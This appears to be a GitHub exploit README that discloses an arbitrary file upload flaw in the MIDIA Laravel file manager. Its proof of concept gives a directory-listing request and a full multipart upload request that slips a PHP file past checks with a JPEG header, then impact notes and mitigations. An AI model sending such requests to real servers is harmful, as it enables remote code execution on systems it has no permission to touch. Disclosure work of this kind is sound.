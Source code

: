 # 🚨 MIDIA - Unrestricted File Upload / Arbitrary File Upload

**Exploit Title:** MIDIA Unrestricted File Upload / Arbitrary File Upload  
**Date:** 02 October 2024  
**Exploit Author:** Khunerable  
**Tested On:** Windows 11, Windows NT 10.0  
**Vendor Homepage:** [https://github.com/itskodinger/midia](https://github.com/itskodinger/midia/tree/master)
**Link Description:** [https://cxsecurity.com/issue/WLB-2024100003](https://cxsecurity.com/issue/WLB-2024100003)
---

## 📄 Description

MIDIA is a file manager package for Laravel. A vulnerability exists that allows unauthenticated (or improperly authenticated) users to upload arbitrary files including PHP scripts to any available directory, resulting in remote code execution (RCE).

---

## 🧪 Proof of Concept (PoC)

### 📁 List Uploaded Files

To see the uploaded files and directory listings:

```
GET /midia/get/1?key=&directory_name=blog
```

Example:

```
https://example.com/midia/get/1?key=&directory_name=blog
```

---

### 📤 Upload Malicious File

**Request:**

```
POST /midia/upload?directory_name=blog HTTP/2
Host: example.com
Cookie: [Your Session Cookies]
X-Csrf-Token: [CSRF Token from target]
Content-Type: multipart/form-data; boundary=---------------------------boundary

-----------------------------boundary
Content-Disposition: form-data; name="file"; filename="dummy.php"
Content-Type: image/jpeg

ÿØÿà<?php phpinfo(); ?>
-----------------------------boundary--
```

You must replace:

- `directory_name=blog` with any available directory
- `X-Csrf-Token` with valid token
- Cookies with valid `XSRF-TOKEN` and session values

---

### ✅ Server Response

Successful upload will return a JSON response:

```json
{
  "success": "dummy.php"
}
```

Your file can be accessed at:

```
https://example.com/midia/get/1?key=&directory_name=blog
```

---

## ⚠️ Impact

This vulnerability allows an attacker to:

- Upload and execute arbitrary PHP code
- Gain remote access to the server
- Compromise entire Laravel applications using this package

---

## 🛡️ Recommendation

- Update or patch the MIDIA package to restrict file types and enforce authentication
- Implement server-side MIME validation
- Prevent `.php`, `.phar`, or similar executable uploads

---

> 📌 Disclaimer: This repository is for educational purposes only. Use responsibly.
